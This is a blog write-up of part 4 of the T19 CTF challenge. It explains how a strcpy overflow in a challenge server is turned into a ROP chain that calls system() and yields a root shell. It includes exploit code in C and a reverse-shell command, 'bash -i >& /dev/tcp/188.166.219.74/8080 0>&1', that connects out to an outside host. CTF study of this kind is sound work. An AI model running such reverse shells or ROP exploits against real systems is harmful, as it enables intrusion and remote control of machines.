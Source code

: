 ```yaml
---
layout: post
title: T19 Challenge - Part 4
ctf: T19 Challenge
---
```


[Last time][part3], we managed to empty the virus database, and got the third flag. But that's not enough. How about trying to get a shell?

### Recap
Previously, we managed to obtain an arbitrary read primitive, and a constrained write primitive.

##### Write
We can overflow `dest` to overwrite `index` (offset from `db` to read from) and `copy_buf` (target to write to). However, the new value of `index` must not contain null bytes since it will stop `strcpy` from copying further to overwrite `copy_buf`.

```c
int check_hash(char* input, char* buf)
{
  char dest[32];
  int index;
  char* copy_buf;

  init_db();

  index = 0;
  copy_buf = buf;
  strcpy(&dest, input);
  do
  {
    strcpy(copy_buf & 0xFFFFFFFFFFFFFFF0, &db[index]);
    if (!memcmp(&dest, copy_buf, 0x20))
      return 1;
    index += 0x21;
  }
  while (db[index]);
  return 0;
}
```

##### Read
Since `1117984489315730401 * 0x21 = 1` for qword multiplication, we can set `index = 1117984489315730401 * offset` to choose the offset from `db` to read from. This is better than only being able to read from offsets in multiples of `0x21`.

```c
char *get_hash(unsigned long long index)
{
  return &db[0x21 * index];
}
```

### The plan
In order to get a shell, we need a way to control `rip`. The best way here would be to place a ROP chain in the stack.

The steps we need to take could be summarized below:

##### 1. Locate the stack
We need to locate the stack so that we can overwrite the return address. In addition, we also want the address of the `message` received from the client, so that we can control what is being written.

##### 2. Overwrite `db` with a working address
The current location `db` is pointing to is no good. Because the stack is located at a higher address relative to `db`, the new value to overwrite `index` will contain null bytes, and stop `strcpy` from copying further to overwrite `copy_buf`.

A random address such as `0x1122334455667788` will be fine, since in this case, the offset for an address in the stack (e.g. `0x7fffffffeab8`) would definitely require 8 bytes to represent.

##### 3. Placing a ROP chain in the stack
Once we have all the above done, we are left with writing a ROP chain onto the stack. 

Sadly, we cannot use `one_gadget` here, because remember that we are not using `stdin` or `stdout`, but a separate `fd` to communicate with the server. `one_gadget` would just spawn a shell to talk with `stdin`/`stdout` but that's useless.

However, we can write a command to somewhere in memory, i.e. spawning a reverse shell with `"bash -i >& /dev/tcp/<ip>/8000 0>&1"`. Then, our ROP chain can call `system` with the address of that string as its argument.

### Exploit
##### Finding the stack
There exists addresses in the `ld` section that points to the stack, which we can easily find using gef.

![scan][scan-ld-stack-screenshot]

Since these addresses reside below our current stack frame, we can place a distinguishable value in our `message` (e.g. `0xdeadbeefcafebabe`), then read from the stack upwards until we find this value. 

From this we can compute the location of our return address to overwrite, as well as the `message` received from the client to copy from.

##### Finding libc
Since we will be calling `system` afterwards, we also need to find the address of libc. For doing this, it is more effective to use the same libc as the challenge server. So I downloaded `/lib/x86_64-linux-gnu/libc-2.24.so` from the challenge server, and from that time onwards spawn `srv_copy` with

```bash
LD_PRELOAD=./libc-2.24.so ./ld-2.24.so ./srv_copy
```

![scan][scan-ld-libc-screenshot]

Similar to finding the stack, we can utilize the references to libc present in the ld section. For example, we can read the address of `malloc` then subtract `0x7af10` to obtain the address of the start of `libc`.

##### Overwrite `db`
There is no strong restriction of what to overwrite the address that `db` points to with, but the most convenient way is to fill up all the 8 bytes, so that the offset of the stack relative to this address would take up 8 bytes.

For example, we set `db` to now be at `0x19edc3284c8b80b1`, so that when trying to copy from our `message` (at `0x7fffffffe8e0`), the `index` will be `0xe612bcd7b374682f`. No null bytes. 

Hence, our payload for `check_hash` would look something like the following

```
<32 byte padding> | <offset to memory containing new db> - 8 | 0x603108 (location of db)
```

Recall that the program will keep copying from `db[index]` until either 32 bytes from `dest` and `copy_buf` are the same, or `db[index]` contains a null byte. Also, there is `copy_buf & 0xFFFFFFFFFFFFFFF0` when calling `strcpy`, so offsets need to be adjusted accordingly.

```c
do
{
  strcpy(copy_buf & 0xFFFFFFFFFFFFFFF0, &db[index]);
  if (!memcmp(&dest, copy_buf, 0x20))
    return 1;
  index += 0x21;
}
while (db[index]);
```

It is almost certainly impossible to ensure that `db[index]` contains a null byte after changing the value of `db`, considering that both `index` and the new value of `db` are randomly chosen.

But we still need to stop the loop. We can achieve that by filling the 32 bytes of `dest` with the 32 bytes that are expected to be in `copy_buf`, so that `memcmp` returns 0 and we exit the loop.

With this in place, what we have achieved is the ability to **copy data from our sent message** into **anywhere we want**.

##### Placing the ROP chain
This part should be fairly simple with all the preparations made above. 

But first, we got to copy our command into somewhere in memory so that we can call `system` with it later. We choose to spawn a reverse shell due to the reasons discussed earlier.

```
bash -c "bash -i >& /dev/tcp/188.166.219.74/8080 0>&1"
```

One nice place is the original `db`, since it is not going to be used anywhere anymore, and we have one whole page of memory to work with. 

Finally, we can write our ROP chain onto the stack, like the following

```
pop rdi, ret
original_db
system()
```

Writing the ROP chain is slightly tricky because there will definitely be null bytes in our gadgets that will prevent `strcpy` from copying the whole chain at once. There is no way to avoid that, but we can take advantage of the loop in `check_hash` to keep copying until `dest == copy_buf`.

We can write the chain part by part, starting from the bottom, something like the following

```c
// includes rbp because location of return address ends with 8
// copy_buf & 0xFFFFFFFFFFFFFFF0 would result in the copying being done
// 8 bytes earlier

int i = 0;
*(unsigned long long*)&s.data[pad + 33 * i] = 0xdeadbeefcafebabe;       // rbp
*(unsigned long long*)&s.data[pad + 8 + 33 * i] = 0xdeadbeefcafebabe;   // ret_addr
*(unsigned long long*)&s.data[pad + 16 + 33 * i] = 0xdeadbeefcafebabe;  // ret_addr + 8
*(unsigned long long*)&s.data[pad + 24 + 33 * i] = system_addr;         // ret_addr + 16

i++;
*(unsigned long long*)&s.data[pad + 33 * i] = 0xdeadbeefcafebabe;
*(unsigned long long*)&s.data[pad + 8 + 33 * i] = 0xdeadbeefcafebabe;
*(unsigned long long*)&s.data[pad + 16 + 33 * i] = 0x00adbeefcafebabe;

i++;
*(unsigned long long*)&s.data[pad + 33 * i] = 0xdeadbeefcafebabe;
*(unsigned long long*)&s.data[pad + 8 + 33 * i] = 0xdeadbeefcafebabe;
*(unsigned long long*)&s.data[pad + 16 + 33 * i] = shell_str;

i++;
*(unsigned long long*)&s.data[pad + 33 * i] = 0xdeadbeefcafebabe;
*(unsigned long long*)&s.data[pad + 8 + 33 * i] = 0x00adbeefcafebabe;

i++;
*(unsigned long long*)&s.data[padding_len + 33 * i] = 0xdeadbeefcafebabe;
*(unsigned long long*)&s.data[padding_len + 8 + 33 * i] = pop_rdi_ret_gadget;
```

##### Exploit in action
If nothing goes wrong, we shall get a `root` shell.

*(You might need to watch this in full screen.)*

<script id="asciicast-0PuOCdPcQc2OaBDKNVqJeLVcZ" src="https://asciinema.org/a/0PuOCdPcQc2OaBDKNVqJeLVcZ.js" async></script>

You can find the relevant files [here](https://github.com/daniellimws/daniellimws.github.io/tree/master/ctfs/t19/part4).

---

If there is anything unclear, feel free to leave a comment below.

[part3]:/t19-challenge-3.html
[scan-ld-stack-screenshot]:{{site.baseurl}}/ctfs/t19/part4/images/scan-ld-stack.png
[scan-ld-libc-screenshot]:{{site.baseurl}}/ctfs/t19/part4/images/scan-ld-libc.png